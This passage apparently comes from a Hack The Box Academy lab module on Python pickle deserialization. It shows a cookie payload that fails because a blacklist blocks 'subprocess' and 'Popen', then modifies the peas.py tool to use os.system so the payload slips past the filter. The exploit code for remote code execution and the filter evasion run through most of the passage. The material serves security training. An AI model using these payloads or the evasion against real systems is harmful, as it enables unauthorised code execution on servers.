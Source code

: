 Unfortunately, starting a Netcat listener and updating the cookie's value does not result in a reverse shell as expected, but rather an `Internal Server Error`.

![](https://academy.hackthebox.com/storage/modules/169/3/8-error500.png)

Let's investigate why this is. If we decode the payload, we can see the strings `subprocess` and `Popen`, both of which we know are blocked by the blacklist filter in `util/auth.py`:

```shell
cat payload_pick | base64 -d

j
subprocessPopenpython-cX8exec(ch...SNIP...(41))R.

```

Taking a look at the source code for `peas.py` we see that `subprocess.Popen` is indeed in use here.

```python
...
class Gen(object):
    def __init__(self, payload):
        self.payload = payload

    def __reduce__(self):
        return subprocess.Popen, (self.payload,)
...

```

At this point, we see we would need to make a couple of modifications to this tool for it to actually work (in this scenario). Alternatively, we could create a custom payload using our knowledge, but for the sake of this example, I will walk through how to get `peas.py` working. Inside `peas.py` you need to make the following changes:

- Swap `subprocess.Popen` out for `os.system`
- Modify the argument generation as `os.system` accepts a string instead of an array like `subproces.Popen`

It should look like this:

```python
#import subprocess
import os
...
        #return subprocess.Popen, (self.payload,)
        return (os.system, (self.payload,))
...
        #self.payload = pickle.dumps(Gen(tuple(self.case().split(" "))))
        self.payload = pickle.dumps(Gen(self.case()))
...
            #cmd = self.prefix+"python -c exec({})".format(self.chr_encode("__import__('os').system"
            cmd = self.prefix+"python -c 'exec({})'".format(self.chr_encode("__import__('os').system"
...

```
